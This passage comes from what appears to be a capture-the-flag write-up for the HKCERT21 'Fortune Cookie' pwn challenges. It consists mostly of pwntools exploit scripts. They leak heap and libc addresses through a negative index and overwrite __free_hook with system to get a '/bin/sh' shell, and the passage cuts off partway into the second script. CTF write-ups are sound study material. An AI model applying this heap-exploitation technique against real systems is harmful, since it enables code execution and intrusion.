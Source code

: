 ```python
    p.sendlineafter(">", '3')
    p.sendlineafter("Which cookie?", str(idx))
    p.sendafter("New Message:", data)
def show(idx):
    p.sendlineafter(">", '4')
    p.sendlineafter("Which cookie?", str(idx))

#print(p.recvline())
show(-11)
p.recv(7)
leak = u64(p.recv(6).ljust(8, b'\x00'))
info(f"leak: {hex(leak)}")
for i in range(27):
    create(0x88, b"/bin/sh\x00")

target = leak + 0x80
edit(-11, p64(target))
edit(-11, p64(target-0x68))
show(5)
p.recv(8)
#input()
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x3c5620
info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']

edit(-11, p64(free_hook))
edit(5, p64(system))
eat()


p.interactive()
```

## Fortune Cookie 2
This challenge has the source as Fortune Cookie 1
So I used the same exploit script with a little change related to the different of libc version.

Full exploit script:
```python
from pwn import *

TARGET = './chall'
HOST = 'chalp.hkcert21.pwnable.hk'
PORT = 38231
context.arch = 'amd64' # i386/amd64
#context.log_level = 'debug'
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    libc = ELF("./libc-2.27.so")
else:
    p = process(TARGET ,env = {"LD_PRELOAD": "./libc-2.27.so"})
    libc = elf.libc
    gdbscript = ''''''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#---

def eat():
    p.sendlineafter(">", '1')
```